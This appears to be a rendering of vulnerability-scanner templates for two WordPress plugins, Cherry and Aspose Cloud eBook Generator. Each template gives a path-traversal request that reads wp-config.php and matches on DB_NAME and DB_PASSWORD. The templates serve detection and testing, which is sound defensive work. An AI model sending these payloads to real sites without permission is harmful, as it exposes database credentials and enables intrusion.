 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# Wordpress Aspose Cloud eBook Generator - Local File Inclusion

## Description

- Wordpress Aspose Cloud eBook Generator is vulnerable to local file inclusion.
- severity - high
- tags - aspose,ebook,wpscan,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

